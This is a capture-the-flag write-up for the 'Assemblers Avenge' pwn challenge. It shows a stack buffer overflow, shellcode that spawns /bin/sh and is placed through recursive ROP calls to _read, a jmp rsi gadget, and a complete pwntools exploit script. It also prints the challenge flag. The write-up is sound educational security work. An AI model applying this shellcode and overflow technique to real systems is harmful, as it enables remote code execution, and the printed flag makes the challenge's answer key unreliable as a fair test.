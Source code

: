 	# HTB Distopia - PWN | Assemblers Avenge

This challenge involved adding shellcode to the stack through recursive ROP calls and executing that shellcode through a relative JMP instruction.

### Initial Analysis

Looking at checksec there are no memory protections on the binary

```
$ checksec assemblers_avenge
	RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```

Taking a look through the binary, there is an obvious buffer overflow in the `_read` function. The buffer is located at `[RBP + -0x8]` which makes the buffer 8 bytes long, however `0x18` bytes are being read into it.

```
                _read                                           
0040106d 55              PUSH       RBP
0040106e 48 89 e5        MOV        RBP,RSP
00401071 48 83 ec 10     SUB        RSP,0x10
00401075 48 c7 c7        MOV        __fd,0x0
         00 00 00 00
0040107c 48 8d 75 f8     LEA        __buf=>local_10,[RBP + -0x8]
00401080 48 c7 c2        MOV        __nbytes,0x18
         18 00 00 00
00401087 48 c7 c0        MOV        RAX,0x0
         00 00 00 00
0040108e 0f 05           SYSCALL
00401090 c9              LEAVE
00401091 c3              RET
```

The assembly above is equivalent to

``` c
void _read() {
    char buffer[8];
    read(0, buffer, 0x18);
}
```

Now that the vulnerability has been discovered, the next step is to find a method to exploit it. There are two concerns when exploiting this:
- the amount of data that can be written is 16 bytes (24 - 8)
- the address of the stack is unknown

### Exploitation

Tackling the first issue is pretty simple through using recursive calls to `_read`. By setting RIP to `_read`, the buffer overflow vulnerability can be abused multiple times to make numerous write to the stack. Only 8 bytes can be written on the stack that don't get overriden, so shellcode with a payload size of 24 bytes will take 3 calls to `_read`.

``` python
f_read = p64(0x40106d)

shell1 = b'\x50\x48\x31\xd2\x48\x31\xf6\x48'.ljust(0x10, b'A') + f_read
shell2 = b'\xbb\x2f\x62\x69\x6e\x2f\x73\x68'.ljust(0x10, b'A') + f_read
shell3 = b'\x00\x53\x54\x5f\xb0\x3b\x0f\x05'.ljust(0x10, b'A') + f_read
```

Breaking after the `read` syscall is done executing the first 8 bytes of the shellcode are loaded.

```
pwndbg> x/20gx $rsp+0x8
0x7ffc01dcf290:	0x48f63148d2314850	0x4141414141414141
0x7ffc01dcf2a0:	0x000000000040106d	0x0000000000000000
```

Load the second part of the shellcode.

```
pwndbg> x/20gx $rsp
0x7ffd34e24560:	0x48f63148d2314850	0x68732f6e69622fbb
0x7ffd34e24570:	0x4141414141414141	0x000000000040106d
```

Load the third part of the shellcode.

```
pwndbg> x/20gx $rsp-0x08
0x7ffd34e24560:	0x48f63148d2314850	0x68732f6e69622fbb
0x7ffd34e24570:	0x050f3bb05f545300	0x4141414141414141
0x7ffd34e24580:	0x000000000040106d	0x0000000000000000
```

The complete shellcode should now be loaded to the stack

```
pwndbg> x/10i $rsp-0x8
   0x7ffd34e24560:	push   rax
   0x7ffd34e24561:	xor    rdx,rdx
   0x7ffd34e24564:	xor    rsi,rsi
   0x7ffd34e24567:	movabs rbx,0x68732f6e69622f
   0x7ffd34e24571:	push   rbx
   0x7ffd34e24572:	push   rsp
   0x7ffd34e24573:	pop    rdi
   0x7ffd34e24574:	mov    al,0x3b
   0x7ffd34e24576:	syscall 
   0x7ffd34e24578:	rex.B
```

The next step is finding a method of jumping to the top of the shellcode. This can be done through the gadget `0x40106b: jmp rsi;`. Since RSI stores the value of the buffer when `read()` is called, then it can also be used for jumping to the stack. The issue here is that RSI does not contain the location of the shellcode, but of the current buffer. Getting around this is pretty easy by using a relative jump instruction `jmp -0x1a`.

![[img1.png]]

Put these two pieces together to execute shellcode and get the flag!
`HTB{y0ur_l0c4l_4553mbl3R5_4v3ng3d_066023bd8dc6109e6e4547497951c2ce}`

### Solve

``` python
""" HTB | Armed Terminal
This challenge is slightly tricky in that you need to find a way to jump to shellcode without a stack leak
in order to do this you need to:
  - place shellcode on the stack using numerous ROP calls to the _read function
  - use the gadget { jmp rsi } to jump to the top of the shellcode
"""
from pwn import *

context.binary = './assemblers_avenge'
context.log_level = 'error'
context.terminal = ['gnome-terminal', '-x', 'sh', '-c']

HOST = '94.237.49.212'
PORT = 39904

def get_process():
  return process() # use this if you want to test locally
  #return remote(HOST, PORT)

def main():
  proc = get_process()

  f_read = p64(0x40106d)
  g_jmp_rsi = p64(0x0040106b)

  # Payloads to place shellcode on the stack
  shell1 = b'\x50\x48\x31\xd2\x48\x31\xf6\x48'.ljust(0x10, b'A') + f_read
  shell2 = b'\xbb\x2f\x62\x69\x6e\x2f\x73\x68'.ljust(0x10, b'A') + f_read
  shell3 = b'\x00\x53\x54\x5f\xb0\x3b\x0f\x05'.ljust(0x10, b'A') + f_read
  nop_writes = b'\x90'*0x10 + f_read

  # Place nop sled above the shellcode
  for i in range(4):
    proc.send(nop_writes)

  # Place shellcode on the stack
  proc.send(shell1)
  proc.send(shell2)
  proc.send(shell3)

  # Perform a ROP to jmp RSI, which contains a relative jump instruction to go to our shellcode
  proc.send(b'\xe9\xe0\xff\xff\xff'.ljust(0x10, b'A') + g_jmp_rsi)
  proc.interactive()

if __name__ == '__main__':
  main()
```